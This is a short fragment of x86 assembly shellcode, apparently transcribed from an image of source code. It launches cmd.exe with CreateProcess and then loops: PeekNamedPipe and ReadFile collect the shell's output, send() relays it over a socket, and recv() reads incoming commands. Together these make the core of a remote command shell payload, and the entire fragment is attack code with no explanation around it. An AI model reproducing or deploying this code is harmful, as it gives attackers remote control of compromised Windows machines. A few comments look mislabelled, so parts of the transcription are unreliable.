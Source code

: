 ```
              mov [edi+64h],eax  ;cmd
         ;CreateProcess(NULL,cmdLine,NULL,NULL,1,0,NULL,NULL,&si,&ProcessInformation)
              lea eax, [esp+44h]
              push eax           ;&pi
              push edi           ;&si
              push ecx           ;0
              push ecx           ;0
              push ecx           ;0
              inc  ecx
              push ecx           ;1
              dec  ecx
              push ecx           ;0
              push ecx           ;0
              lea eax,[edi+64h]  ;"cmd"
              push eax
              push ecx           ;0
              call [ebp+8]
loop1:
         ;while1
         ;PeekNamedPipe(hReadPipe1,Buff,1024,&lBytesRead,0,0);
         sub esp,400h       ;
         mov esi,esp            ;esi = Buff
         xor ecx, ecx
         push ecx           ;0
         push ecx           ;0
         lea edi,[ebp+72]   ;&lBytesRead
         push edi           
         mov eax,400h
         push eax           ;1024
         push esi           ;Buff
         mov eax,[ebp+56]            
         push eax           ;hReadPipe1
         call [ebp+12]
         mov eax,[edi]
         test eax,eax
         jz recv_command
send_result:
         ;ReadFile(hReadPipe1,Buff,lBytesRead,&lBytesRead,0)
         xor ecx,ecx
         push ecx      ;0
         push edi      ;&lBytesRead
         push [edi]         ;hReadPipe1
         push esi      ;Buff
         push [ebp+56] ;hReadPipe1
         call [ebp+20]
         ;send(clientFD,Buff,lBytesRead,0)
         xor ecx,ecx
         push ecx      ;0
         push [edi]         ;lBytesRead
         push esi      ;Buff
         push ebx      ;clientFD
         call [ebp+48]
         jmp loop1
recv_command:
         ;recv(clientFD,Buff,1024,0)
         xor ecx,ecx
         push ecx
         mov eax,400h
         push eax
         push esi
         push ebx
         call [ebp+52]
         //lea ecx,[edi]
```